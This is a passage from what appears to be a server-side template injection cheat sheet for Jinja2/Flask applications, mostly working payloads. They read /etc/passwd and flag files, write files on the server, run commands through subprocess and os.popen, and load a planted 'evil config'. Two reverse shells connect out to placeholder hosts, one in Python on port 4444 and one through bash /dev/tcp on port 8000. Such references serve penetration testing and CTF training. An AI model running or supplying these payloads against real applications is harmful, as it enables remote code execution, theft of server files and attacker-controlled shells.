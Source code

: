     # ''.__class__.__mro__[2].__subclasses__()[40] = File class
    {{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
    {{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/tmp/flag").read() }}

### Jinja2 - Write into remote file

    {{ ''.__class__.__mro__[2].__subclasses__()[40]('/var/www/html/myflaskapp/hello.txt', 'w').write('Hello here !') }}

### Jinja2 - Remote Code Execution

- **subprocess.Popen**

  ***NOTE: The number 396 will vary depending of the application.***
  ```
    {{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
    {{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
  ```

- **subprocess.Popen (without guessing the offset)**

  ```
    {% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
  ```

- Simply modification of payload to clean up output and facilitate command input ([https://twitter.com/SecGus/status/1198976764351066113](https://twitter.com/SecGus/status/1198976764351066113)) In another GET parameter include a variable named "input" that contains the command you want to run (For example: &input=ls)
  ```
    {% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}
  ```

- **Writing an evil config file**
  ```
    # evil config
    {{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }} 

    # load the evil config
    {{ config.from_pyfile('/tmp/evilconfig.cfg') }}  

    # connect to evil host
    {{ config['RUNCMD']('/bin/bash -c "/bin/bash -i >& /dev/tcp/x.x.x.x/8000 0>&1"',shell=True) }} 
  ```

### Jinja2 - Filter bypass
